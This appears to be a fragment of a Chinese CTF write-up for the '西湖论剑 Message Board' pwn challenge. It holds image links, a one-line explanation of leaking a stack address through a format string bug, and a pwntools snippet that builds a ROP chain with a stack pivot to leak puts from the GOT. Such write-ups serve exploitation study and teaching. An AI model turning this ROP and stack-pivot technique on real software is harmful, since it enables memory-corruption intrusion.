 ‍

### 西湖论剑-Message Board

[![](assets/1701606597-7b0511c5591ff496bc5f2ac0f3851c06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170501-39ad1724-845f-1.png)

[![](assets/1701606597-960578ddacb1d2dc09f71cc5b62d9588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170505-3ba9e958-845f-1.png)

格式字符串漏洞获取栈地址，下一处读入利用栈地址获取 libc 基址

```plain
payload = p64(stack_addr+0xb0+0x28) #rbp
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```
